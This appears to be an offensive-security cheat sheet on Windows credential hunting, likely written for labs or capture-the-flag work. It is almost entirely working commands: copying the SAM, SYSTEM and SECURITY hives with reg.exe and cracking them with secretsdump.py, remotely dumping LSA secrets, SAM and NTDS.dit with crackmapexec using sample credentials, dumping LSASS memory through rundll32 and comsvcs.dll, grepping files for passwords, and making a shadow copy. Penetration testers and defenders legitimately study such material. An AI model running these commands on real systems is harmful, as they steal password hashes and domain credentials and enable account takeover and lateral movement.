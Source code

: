 # Cred Hunting

## Copying SAM Registry Hives

If we have local admin access on target, we could copy three registry SAM hives, which would help us to dump and crack hashes



| Registry Hive                                         | Description                                                                         |
| ----------------------------------------------------- | ----------------------------------------------------------------------------------- |
| <mark style="color:green;">**`HKLM\sam`**</mark>      | Hashes associated with local account passwords                                      |
| <mark style="color:green;">**`HKLM\system`**</mark>   | System bootkey, which is encryption/decryption key for SAM                          |
| <mark style="color:green;">**`HKLM\security`**</mark> | Cached credentials for domain accounts, it is not 100% needed, but would help a lot |

For dumping hives we would use reg.exe as admin

```powershell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
The operation completed successfully.
```

### Running secretsdump.py

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCA
```

***

## **Remote Dumping**

#### **Dumping LSA Secrets Remotely**

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --lsa
```

#### Dumping SAM Remotely&#x20;

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --sam
```

#### Dumping  NTDS.dit Remotely

```bash
crackmapexec smb 13.13.13.13 -u amogus -p 1mp0st3r --ntds
```

***

## LSASS Dumping

**Rundll32.exe & Comsvcs.dll Method**

<mark style="color:red;">IMPORTANT: Anitivirus would see this as malicious activity.</mark> The point of method is that we use <mark style="color:blue;">**rundll32.exe**</mark> to call an exported function of <mark style="color:blue;">**comsvcs.dll**</mark> which also calls the **MiniDumpWriteDump** (**MiniDump**) function to dump the **LSASS** process memory to a specified directory (**C:\lsass.dmp**). But to do this we'll need a LSASS PID. with <mark style="color:blue;">**`tasklist /svc`**</mark> in **cmd** or <mark style="color:blue;">**`Get-Process lsass`**</mark> in **powershell**. With PID we could dump LSASS memory.

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 666 C:\lsass.dmp full
```

***

## CMD

### Findstr

```powershell
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

C:\> findstr /s /i flag n:\*.*
```

### Dir

```powershell
dir n:\*flag* /s /b
```

***

## PowerShell

### Include

```powershell
Get-ChildItem -Recurse -Path N:\ -Include *flag* -File
```

### Select-String

```powershell
Get-ChildItem -Recurse -Path N:\ | Select-String "flag" -List
```

***

## Creating Shadow Copy of C:

```powershell
PS C:\> vssadmin CREATE SHADOW /For=C:
```

***

## Stealing NTDS.dit using CME

```bash
crackmapexec smb 13.13.13.13 -u amogus -p 1mp0st3r --ntds
```

***

